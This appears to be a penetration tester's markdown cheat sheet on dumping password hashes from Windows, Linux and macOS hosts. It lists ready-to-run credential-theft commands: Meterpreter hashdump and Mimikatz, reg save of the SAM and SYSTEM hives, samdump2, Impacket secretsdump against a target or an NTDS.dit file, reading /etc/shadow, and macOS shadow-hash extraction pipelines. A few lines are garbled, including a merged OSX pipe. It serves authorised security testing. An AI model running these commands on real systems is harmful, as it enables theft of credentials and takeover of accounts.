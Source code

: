 # Dumping Hashes

## Windows: 

### Meterpreter HashDump

- run post/windows/gather/hashdump

### Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)

- load mimikatz
- creds_all

DUMP LSA SECRETS
- lsadump.py sys_backup.hiv sec_backup.hiv

DUMP LOCAL PASSWORD HASHES

- pwdump.py sys_backup.hiv sec_backup.hiv

### reg.exe 

```
reg save HKLM\sam sam
reg save HKLM\system system
```

### samdump2

```
samdump2 SYSTEM SAM > hashes.db
```

### Impacket Tools: 

Scretsdump.py script does require a pwned user account on the target machine. 
```
$ sudo python3 secretsdump.py domain.local\username:password@<target_IP>
```
or
```
secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes
```
If you have the NTDS.dit file and the SYSTEM hive: 
```
secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL
```

---

## Linux

Requires Root Privileges

- `cat /etc/shadow`

- `cp /etc/passwd` and `/etc/shadow`
- `unshadow passwd shadow > unshadowed`

---

##  OSX

10.5-10.7

- dscl localhost -read /Search/Users/<username>|grep GeneratedUID|cut -c15-cat
/var/db/shadow/hash/<GUID> | cut -c169-216 > osx_hash.txt

10.8-10.12

- sudo defaults read /var/db/dslocal/nodes/Default/users/<username>.plist ShadowHashData|tr -dc ‘
0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -

---

### Other Resources: 

- Lsassy: https://github.com/Hackndo/lsassy